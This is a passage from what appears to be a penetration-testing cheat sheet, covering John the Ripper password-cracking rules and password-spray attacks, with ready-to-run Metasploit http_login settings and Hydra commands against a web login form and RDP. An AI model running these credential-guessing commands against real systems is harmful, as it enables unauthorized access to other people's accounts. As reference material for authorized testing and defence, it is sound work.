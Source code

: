 ```
sl1
so0
```

### Using Custom Rules
```bash
# First add your rules to john.conf, then:
john --wordlist=wordlist.txt --rules=Custom hashes.txt
```

### Common Rule Functions
- `c`: Capitalize first letter
- `l`: Convert to lowercase
- `u`: Convert to uppercase
- `$X`: Append character X
- `^X`: Prepend character X
- `sXY`: Replace X with Y

<a name="password-spray"></a>
## 7. Password Spray Attacks

Password spraying is a technique that attempts a small number of commonly used passwords against many accounts to avoid account lockouts.

### Key Concepts
- Unlike brute force, password spraying uses a limited set of passwords
- Typically tries one password against all accounts, then waits before trying the next
- Designed to avoid triggering account lockout mechanisms

### Tools for Password Spraying

#### Metasploit
```bash
use auxiliary/scanner/http/http_login
set RHOSTS 192.168.1.0/24
set USER_FILE users.txt
set PASS_FILE common_passwords.txt
set USERPASS_FILE userpass.txt
set BLANK_PASSWORDS true
set USER_AS_PASS true
set STOP_ON_SUCCESS false
set BRUTEFORCE_SPEED 1
run
```

#### Hydra
```bash
# Against web form
hydra -L users.txt -p Spring2024! 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=Login failed"

# Against RDP
hydra -L users.txt -p Winter2023! rdp://192.168.1.100
```
